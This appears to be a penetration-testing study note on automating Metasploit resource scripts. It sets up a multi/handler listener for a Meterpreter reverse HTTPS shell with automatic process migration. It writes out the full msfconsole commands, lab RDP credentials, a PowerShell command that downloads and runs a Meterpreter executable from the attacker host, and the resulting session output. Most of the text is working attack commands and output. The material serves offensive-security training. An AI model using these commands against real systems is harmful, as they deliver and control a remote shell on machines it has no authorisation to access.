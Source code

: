 ### Resource Scripts 

Components: metasploit console commands and ruby code

#### Automating multi/handler listeners to catch reverse shells

Activate module, set payload, and options
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
```

##### Automating process migration
Configure _AutoRunScript_ to automatically launch background _notepad.exe_ process and migrate to it

```
set AutoRunScript post/windows/manage/migrate 
```

Set ExitOnSession to false to keep the multi/handler listening after a connection

```
set ExitOnSession false
```

Launch module as background job
```
run -z -j
```

Save script as `resource.rc` and supply as argument for metasploit 

```
kali@kali:~$ sudo msfconsole -r listener.rc
[sudo] password for kali:
...

[*] Processing listener.rc for ERB directives.
resource (listener.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (listener.rc)> set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
resource (listener.rc)> set LHOST 192.168.119.4
LHOST => 192.168.119.4
resource (listener.rc)> set LPORT 443
LPORT => 443
resource (listener.rc)> set AutoRunScript post/windows/manage/migrate
AutoRunScript => post/windows/manage/migrate
resource (listener.rc)> set ExitOnSession false
ExitOnSession => false
resource (listener.rc)> run -z -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.119.4:443
```

Connect to target via RDP with creds: 
`justin:SuperS3cure1337#`

Start powershell, download & execute `met.exe`

```
PS C:\Users\justin> iwr -uri http://192.168.119.4/met.exe -Outfile met.exe
```

```
PS C:\Users\justin> .\met.exe
```

MSF notifies us about incoming connection
```
[*] Session ID 1 (192.168.119.4:443 -> 127.0.0.1) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against BRUTE2
[*] Current server process: met.exe (2004)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 5340
[+] Successfully migrated into process 5340
[*] Meterpreter session 1 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-02 09:54:32 -0400
```

MSF automatically migrated to notepad process.

##### Listing Resource Scripts
```
kali@kali:~$ ls -l /usr/share/metasploit-framework/scripts/resource
total 148
-rw-r--r-- 1 root root  7270 Jul 14 12:06 auto_brute.rc
-rw-r--r-- 1 root root  2203 Jul 14 12:06 autocrawler.rc
-rw-r--r-- 1 root root 11225 Jul 14 12:06 auto_cred_checker.rc
-rw-r--r-- 1 root root  6565 Jul 14 12:06 autoexploit.rc
-rw-r--r-- 1 root root  3422 Jul 14 12:06 auto_pass_the_hash.rc
-rw-r--r-- 1 root root   876 Jul 14 12:06 auto_win32_multihandler.rc
...
-rw-r--r-- 1 root root  2419 Jul 14 12:06 portscan.rc
-rw-r--r-- 1 root root  1251 Jul 14 12:06 run_all_post.rc
-rw-r--r-- 1 root root  3084 Jul 14 12:06 smb_checks.rc
-rw-r--r-- 1 root root  3837 Jul 14 12:06 smb_validate.rc
-rw-r--r-- 1 root root  2592 Jul 14 12:06 wmap_autotest.rc
```

